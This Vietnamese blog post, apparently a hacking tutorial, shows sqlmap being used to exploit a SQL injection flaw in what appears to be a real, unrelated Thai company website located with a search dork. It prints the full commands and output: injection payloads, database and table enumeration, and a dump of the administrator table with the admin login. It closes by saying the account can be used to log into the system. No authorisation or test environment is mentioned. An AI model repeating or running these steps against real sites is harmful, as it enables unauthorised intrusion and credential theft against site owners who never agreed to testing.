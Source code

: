 ```yaml
---
title: Khai Thác Lỗi SQl Injection (sqlmap)
date: 4/6/2021
layout: single

--- 
```

---

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)


### SQLMap là gì

SQLMAP là công cụ khai thác những lổ hỏng của cơ sở dữ liệu SQL. Công cụ này được xem là công cụ khai thác SQL tốt nhất hiện nay. Được giới bảo mật và giới hacker sử dụng thường xuyên. Với người dùng Kali hoặc Back Track 5 thì SQLMAP đã được tích hợp sẵn vào hệ điều hành. Riêng Windows thì chúng ta phải cài đặt thêm python và SQLMAP để sử dụng

Đây là công cụ mã nguồn mở, tự động hóa quá trình phát hiện và khai thác lỗ hổng SQL. Nó đi kèm với một công cụ phát hiện mạnh mẽ, nhiều tính năng thích hợp cho trình kiểm tra thâm nhập cuối cùng

Tải sqlmap tại [https://sqlmap.org/](https://sqlmap.org/) 

--- 

## Khai Thác 
Đầu tiên tôi tìm các liên kết về inurl php id= .co.th
Tôi thử với trang [http://www.megaplanet.co.th/project-details.php?id=26](http://www.megaplanet.co.th/project-details.php?id=26) 


---
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 --dbs

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1040=1040

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 3942 FROM (SELECT(SLEEP(5)))QFnO)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=26 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71766a7871,0x4c6f7467466a4c417963637a566c444b534a596b57574859674653504e4379586256644d66517745,0x7178627171),NULL,NULL,NULL,NULL-- -
---
[21:55:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:55:40] [INFO] fetching database names
[21:55:40] [WARNING] reflective value(s) found and filtering out
[21:55:40] [INFO] resumed: 'information_schema'
[21:55:40] [INFO] resumed: 'megaplanet_db'
available databases [2]:
[*] information_schema
[*] megaplanet_db

[21:55:40] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\www.megaplanet.co.th'

```
Sau khi xác định được tên cơ sở dữ liệu, tôi lại tìm tiếp tên các bảng có trong cơ sở dữ liệu 
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db --tables
[22:09:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:09:57] [INFO] fetching tables for database: 'megaplanet_db'
[22:09:57] [WARNING] reflective value(s) found and filtering out
[22:09:57] [INFO] resumed: 'tb_pic'
[22:09:57] [INFO] resumed: 'tb_project'
[22:09:57] [INFO] resumed: 'config'
[22:09:57] [INFO] resumed: 'project_ref'
[22:09:57] [INFO] resumed: 'tb_sort'
[22:09:57] [INFO] resumed: 'tb_cateproduct'
[22:09:57] [INFO] resumed: 'tb_detailhome'
[22:09:57] [INFO] resumed: 'administrator'
[22:09:57] [INFO] resumed: 'tb_banner'
[22:09:57] [INFO] resumed: 'tb_title'
[22:09:57] [INFO] resumed: 'tb_admin'
[22:09:57] [INFO] resumed: 'news'
[22:09:57] [INFO] resumed: 'tb_seo'
[22:09:57] [INFO] resumed: 'tb_news'
[22:09:57] [INFO] resumed: 'products'
[22:09:57] [INFO] resumed: 'tb_config'
[22:09:57] [INFO] resumed: 'tb_product'
[22:09:57] [INFO] resumed: 'tb_slide'
[22:09:57] [INFO] resumed: 'catpro'
[22:09:57] [INFO] resumed: 'subcatpro'
Database: megaplanet_db
[20 tables]
+----------------+
| administrator  |
| catpro         |
| config         |
| news           |
| products       |
| project_ref    |
| subcatpro      |
| tb_admin       |
| tb_banner      |
| tb_cateproduct |
| tb_config      |
| tb_detailhome  |
| tb_news        |
| tb_pic         |
| tb_product     |
| tb_project     |
| tb_seo         |
| tb_slide       |
| tb_sort        |
| tb_title       |
+----------------+

```
Xác định tên các cột trong bảng
Ta thấy administrator có thể chứa thông tin đăng nhập, nên ta sử dụng lệnh sau để xác định trong bảng administrator
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db -T administrator --dump
[22:14:20] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:14:20] [INFO] fetching columns for table 'administrator' in database 'megaplanet_db'
[22:14:20] [WARNING] reflective value(s) found and filtering out
[22:14:20] [INFO] resumed: 'ID','int(11)'
[22:14:20] [INFO] resumed: 'admin','varchar(50)'
[22:14:20] [INFO] resumed: 'password','varchar(50)'
[22:14:20] [INFO] resumed: 'active','int(11)'
[22:14:20] [INFO] fetching entries for table 'administrator' in database 'megaplanet_db'
Database: megaplanet_db
Table: administrator
[1 entry]
+----+-------+--------+----------+
| ID | admin | active | password |
+----+-------+--------+----------+
| 1  | admin | 1      | adminxxx |
+----+-------+--------+----------+

```
Bảng administrator có 1 bản ghi chứa thông tin của username và password là "admin", "adminxxx" Sử dụng tài khoản này, ta sẽ đăng nhập vào được hệ thống

---

## Chúc May Mắn :D
